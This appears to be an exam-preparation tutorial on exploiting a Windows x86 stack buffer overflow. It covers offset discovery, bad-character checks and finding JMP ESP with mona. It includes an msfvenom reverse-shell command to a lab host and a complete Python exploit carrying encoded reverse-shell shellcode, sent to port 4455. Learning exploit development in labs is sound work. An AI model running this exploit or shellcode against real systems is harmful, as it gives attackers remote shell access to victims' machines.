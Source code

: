 
## Buffer Overflow - Windows x86

### Intro

In the exam, you are provided with a fuzzing script already.

Some BO guides:
* https://www.nccgroup.trust/au/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/

### Fuzzing -> Determine exact offset -> Control EIP register

1. Fuzz application to determine rough amount of bytes to cause a crash.
2. Generate offset-discovery string: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`
3. Run script with-offset discovery string + look at value in EIP
    * EIP is where we want to store address of a JMP ESP instruction
    * Execution flow: EIP -> JMP ESP -> ESP (shellcode location)
3. Calculate offset: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value in EIP]`

Now we know the exact #bytes needed to reach/control the EIP register so that we can overwrite it with JMP ESP address.

### Checking for bad chars

1. Generate string of bad characters (0x00 -> 0xFF)
2. Use list of bad chars as payload + execute script.
3. Observe crash + goto location in ESP register (right-click -> follow-in-dump)
4. Observe the hex dump and see which character has truncated the rest of the payload that should come after it.
5. Remove character from buffer + repeat steps until all bad chars have been found.

## Find address of a JMP ESP in a DLL

We need to find a module that contains a `JMP ESP` instruction which we can point to.

1. `!mona modules` to list all the loaded modules for the application.
2. Find a module that has no internal security mechanisms:
   * No memory protection (ASLR: address randomisation / DEP: data execution prevention)
   * Memory range of DLL does not contain bad characters
3. Find a `JMP ESP` or equivalent instruction in the DLL.
   * Click on the Executable Modules `e` icon to show list of all modules/DLLs loaded with the application.
   * Locate the chosen DLL in step #3 and click on the DLL.
   * Right-click on instruction window -> Search For -> Command -> `JMP ESP`
   * If none are found: Search For -> Command Sequence -> `PUSH ESP | RETN` (equivalent command)
   * If none are found: `!Mona find -s "\xFF\xE4" -m slmfc.dll` to find the opcode for `JMP ESP` in the whole slmfc.dll.
4. Once `JMP ESP` has been found, verify that the address does actually contain the instruction
   * Click on "Go to address in disassembler" button then enter in the address.
   * Check that the address has `JMP ESP`

### Generate and use shellcode

1. Generate shellcode, target specific platform (windows x86), encode payload, avoid bad characters
   `$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.42 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
   In front of the shellcode are instructions to decode the encoded payload.
2. We need to provide the shellcode docoder some stack-space to work with
   * Append NOP instructions to the front of the payload e.g. `"\x90 * 16"`
3. 

### Final Payload

```Python
#!/usr/bin/python
#
#[*] Exact match at offset 2369
#76E295FD

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()

cmd = "OVRFLW "

shellcode = ("\xd9\xc6\xd9\x74\x24\xf4\x5f\x31\xc9\xbd\xc5\x06\x1f\x5e\xb1"
"\x52\x31\x6f\x17\x03\x6f\x17\x83\x2a\xfa\xfd\xab\x48\xeb\x80"
"\x54\xb0\xec\xe4\xdd\x55\xdd\x24\xb9\x1e\x4e\x95\xc9\x72\x63"
"\x5e\x9f\x66\xf0\x12\x08\x89\xb1\x99\x6e\xa4\x42\xb1\x53\xa7"
"\xc0\xc8\x87\x07\xf8\x02\xda\x46\x3d\x7e\x17\x1a\x96\xf4\x8a"
"\x8a\x93\x41\x17\x21\xef\x44\x1f\xd6\xb8\x67\x0e\x49\xb2\x31"
"\x90\x68\x17\x4a\x99\x72\x74\x77\x53\x09\x4e\x03\x62\xdb\x9e"
"\xec\xc9\x22\x2f\x1f\x13\x63\x88\xc0\x66\x9d\xea\x7d\x71\x5a"
"\x90\x59\xf4\x78\x32\x29\xae\xa4\xc2\xfe\x29\x2f\xc8\x4b\x3d"
"\x77\xcd\x4a\x92\x0c\xe9\xc7\x15\xc2\x7b\x93\x31\xc6\x20\x47"
"\x5b\x5f\x8d\x26\x64\xbf\x6e\x96\xc0\xb4\x83\xc3\x78\x97\xcb"
"\x20\xb1\x27\x0c\x2f\xc2\x54\x3e\xf0\x78\xf2\x72\x79\xa7\x05"
"\x74\x50\x1f\x99\x8b\x5b\x60\xb0\x4f\x0f\x30\xaa\x66\x30\xdb"
"\x2a\x86\xe5\x4c\x7a\x28\x56\x2d\x2a\x88\x06\xc5\x20\x07\x78"
"\xf5\x4b\xcd\x11\x9c\xb6\x86\xdd\xc9\x93\x49\xb6\x0b\xe3\x64"
"\x1a\x85\x05\xec\xb2\xc3\x9e\x99\x2b\x4e\x54\x3b\xb3\x44\x11"
"\x7b\x3f\x6b\xe6\x32\xc8\x06\xf4\xa3\x38\x5d\xa6\x62\x46\x4b"
"\xce\xe9\xd5\x10\x0e\x67\xc6\x8e\x59\x20\x38\xc7\x0f\xdc\x63"
"\x71\x2d\x1d\xf5\xba\xf5\xfa\xc6\x45\xf4\x8f\x73\x62\xe6\x49"
"\x7b\x2e\x52\x06\x2a\xf8\x0c\xe0\x84\x4a\xe6\xba\x7b\x05\x6e"
"\x3a\xb0\x96\xe8\x43\x9d\x60\x14\xf5\x48\x35\x2b\x3a\x1d\xb1"
"\x54\x26\xbd\x3e\x8f\xe2\xdd\xdc\x05\x1f\x76\x79\xcc\xa2\x1b"
"\x7a\x3b\xe0\x25\xf9\xc9\x99\xd1\xe1\xb8\x9c\x9e\xa5\x51\xed"
"\x8f\x43\x55\x42\xaf\x41")

JMP_ESP = "\x43\x66\xfe\x52"
NOPS = "\x90"*16
junk = "\x41"*2369 + JMP_ESP + NOPS + shellcode + "C"*(3000-2369-4-16-351)

end = "\r\n"

buffer = cmd + junk + end
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((sys.argv[1], 4455))
	s.send(buffer)
	s.recv(1024)
	s.close()
except Exception as e:
	print(e)
```


